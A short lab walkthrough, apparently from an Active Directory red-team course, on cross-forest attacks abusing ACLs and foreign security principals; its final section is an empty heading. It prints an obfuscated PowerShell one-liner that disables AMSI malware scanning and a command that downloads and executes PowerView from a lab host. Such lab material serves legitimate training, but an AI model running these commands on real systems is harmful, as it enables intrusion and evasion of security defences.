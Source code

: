 # Hands-on 27: Cross Forest Attacks - Foreign Security Principals & ACLs

- [Hands-on 27: Cross Forest Attacks - Foreign Security Principals & ACLs](#hands-on-27-cross-forest-attacks---foreign-security-principals--acls)
  - [Tasks](#tasks)
  - [Execute cross forest attack on dbvendor.local by abusing ACLs](#execute-cross-forest-attack-on-dbvendorlocal-by-abusing-acls)
  - [Enumerate FSPs for db.local and escalate privileges to DA by compromising the FSPs](#enumerate-fsps-for-dblocal-and-escalate-privileges-to-da-by-compromising-the-fsps)

---

## Tasks

Using the reverse shell on `db.local`:

- Execute cross forest attack on `dbvendor.local` by abusing ACLs
- Enumerate FSPs for `db.local` and escalate privileges to DA by compromising the FSPs.

<br/>

---

## Execute cross forest attack on dbvendor.local by abusing ACLs

Get a reverse shell from `db-sqlsrv` with reference to [Hands-on 26](l26-XForestMSSQL.md).

Bypass AMSI on `db-sqlsrv`:

```
[Runtime.InteropServices.Marshal]::WriteInt32([Ref].Assembly.GetType('System.Management.Automation.'+$([system.NEt.weBUtILITY]::HTmldecode('&#65;&#109;&#115;&#105;'))+'Utils').GetField(''+$([chAR](5723/59)+[chAR]([BYTE]0x6D)+[CHAR]([BytE]0x73)+[CHAr]([ByTE]0x69))+'Context',[Reflection.BindingFlags]$([cHaR]([BYTE]0x4E)+[chAr]([ByTe]0x6F)+[char](1+109)+[ChAR]([bYtE]0x50)+[chaR](117)+[CHar]([bYte]0x62)+[ChAr](108)+[cHar]([ByTE]0x69)+[cHaR]([BYtE]0x63)+[ChAR](44)+[cHAR](53+30)+[chAR]([ByTE]0x74)+[CHAR](13+84)+[CHar]([byte]0x74)+[cHaR](117-12)+[cHAr]([BYtE]0x63))).GetValue($null),0x567EB97B);
```

<br/>

Import `PowerView.ps1` on `db-sqlsrv`:

```
iex ((New-Object Net.Webclient).DownloadString("http://192.168.100.64/PowerView.ps1"))
```

![picture 7](images/d5375cefc376c46c5ff215942d028c4e829ba36af35fb68d73fb4fc1947da081.png)  

<br/>



<br/>

---

## Enumerate FSPs for db.local and escalate privileges to DA by compromising the FSPs

<br/>

---